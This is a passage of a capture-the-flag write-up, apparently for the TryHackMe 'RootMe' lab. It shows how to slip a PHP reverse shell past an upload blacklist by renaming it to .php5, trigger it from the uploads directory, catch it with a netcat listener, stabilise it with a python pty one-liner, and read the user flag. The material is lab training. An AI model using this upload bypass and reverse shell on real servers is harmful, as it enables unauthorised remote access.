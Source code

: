 ![image](https://github.com/user-attachments/assets/87692c48-ea83-42cc-a738-3f47bc8f53a9)

As i not allwoing us to upoad .php we need to chnage the version bez the black listing has mention .php. just chnae and version and upload
```
cp -r php-reverse-shell.php shell.php5
```
upload

![image](https://github.com/user-attachments/assets/0b6bac2a-fc81-4d6c-b336-78e4643b286d)

After we upload we need to excute this.
as we find upload directory `uploads` head to that 

![image](https://github.com/user-attachments/assets/2836cc50-1d92-4c5b-a67b-abd29b7e4600)

Clik on reverse shell 
![image](https://github.com/user-attachments/assets/9605f5ab-34ff-4dc1-991b-e1c2aa635cbd)

As we got the shell
![image](https://github.com/user-attachments/assets/016fa166-6cc5-4d2c-a3db-a15411a2e5f9)

![image](https://github.com/user-attachments/assets/697ef3e1-c4fb-4a65-af06-359cda6b35bb)

Next step is to find User flag
```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.184.38 58302
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:47:13 up 4 min,  0 users,  load average: 0.29, 0.37, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Let swape a stable shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
Listening on 0.0.0.0 1234
Connection received on 10.10.15.83 51172
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:21:30 up 44 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ 
```
Let find user flag as the web server is hosted
```
www-data@rootme:/$ cd /var/www     		
cd /var/wwwc
www-data@rootme:/var/www$cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/var/www$ 
```

